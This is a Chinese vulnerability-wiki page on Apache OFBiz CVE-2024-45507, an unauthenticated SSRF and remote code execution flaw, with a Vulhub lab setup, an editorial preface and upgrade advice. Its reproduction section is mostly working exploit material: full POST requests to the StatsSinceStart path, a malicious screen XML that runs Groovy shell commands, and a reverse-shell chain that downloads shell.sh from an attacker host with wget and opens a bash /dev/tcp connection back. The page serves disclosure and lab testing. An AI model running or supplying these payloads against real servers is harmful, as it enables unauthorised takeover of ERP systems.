




# Apache OFBiz SSRF 和远程代码执行漏洞 CVE-2024-45507

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<18.12.16，可达StatsSinceStart绕过路径，远程XML可访问、Groovy执行及文件权限满足
- 证据范围：外部screen XML加载到Groovy的链条完整，SSRF与RCE是同一配置输入的不同后果。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 开头要求Host localhost，但首个SSRF请求仍your-ip，示例需一致
- 反弹后两段只是actions片段，应说明嵌回完整XML；下载执行依赖cwd/时序和出网
- 固定Content-Length需重算，不能照抄占位长度
- 写入shell.sh及测试文件无清理说明

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache OFBiz 是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

Apache OFBiz 18.12.16 之前的版本存在一处 SSRF 与远程命令执行漏洞，未经身份验证的攻击者可以利用该漏洞执行任意命令并控制服务器。

参考链接：

- https://github.com/apache/ofbiz-framework/commit/ffb1bc4879
- https://xz.aliyun.com/t/15569
- https://paper.seebug.org/3228/

## 漏洞影响

```
Apache OFBiz < 18.12.16
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.15 服务器：

```shell
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain your-ip not accepted to prevent host header injection. 
```




## 漏洞复现

### SSRF 漏洞

向 `/webtools/control/forgotPassword/StatsSinceStart` 发送以下 POST 请求即可：

```http
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```




## 远程代码执行漏洞

首先在服务器 `<attacker-ip>` 上部署恶意 XML 文件 payload.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/awesome_poc'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

然后将恶意 XML 的 URL 替换进请求中发送：

```http
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://<attacker-ip>/payload.xml
```




命令 `touch /tmp/awesome_poc` 已经被成功执行：




reverse shell payload：

```
# 1. 在服务器 <attcker-ip> 托管 shell.sh：
echo "/bin/bash -i >& /dev/tcp/<attcker-ip>/8888 0>&1" > shell.sh

# 2. 发送第一个数据包。在服务器 <attcker-ip> 托管 payload.xml，下载 shell.sh：
<actions>
	<set value="${groovy:'wget <attcker-ip>/shell.sh'.execute();}"/>
</actions>

# 3. 发送第二个数据包。在服务器 <attcker-ip> 托管 payload.xml，执行shell.sh：
<actions>
	<set value="${groovy:'bash shell.sh'.execute();}"/>
</actions>
```

## 漏洞修复

升级至 18.12.16 及以上版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
